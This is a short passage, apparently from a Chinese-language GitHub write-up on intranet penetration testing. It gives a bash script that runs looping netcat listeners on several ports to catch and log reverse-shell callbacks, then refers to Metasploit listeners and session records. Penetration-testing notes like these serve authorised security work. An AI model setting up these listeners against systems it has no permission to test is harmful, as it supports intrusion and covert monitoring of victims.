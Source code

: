 实战阶段监听脚本:

\#!/bin/bash

\#回连监听

function recv(){

while true

do

nc -lvp \$1 \>\> realtime.\$1.log

echo -e "\\n" \>\> realtime.\$1.log

done

}

function recvlocal(){

while true

do

nc -lvp \$1 \>\> localrecord.\$1.log

echo -e "\\n" \>\> localrecord.\$1.log

done

}

for loop in {3344..3354};do

{

recv \$loop

}&

done

for loop in {8888..8890};do

{

recvlocal \$loop

}&

done

MSF中监听(可实时记录vi等编辑器记录):

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/d86a93f27484e8b1019d9c8add8d8136.png)

![](https://github.com/Scotoma8/CyberSecurity/blob/master/Intranet_Penetration/media/a07dece6a6a6a9302a633a143da403a8.png)

pg数据库中查看session信息(需session断开后才更新数据库):

msfdb init
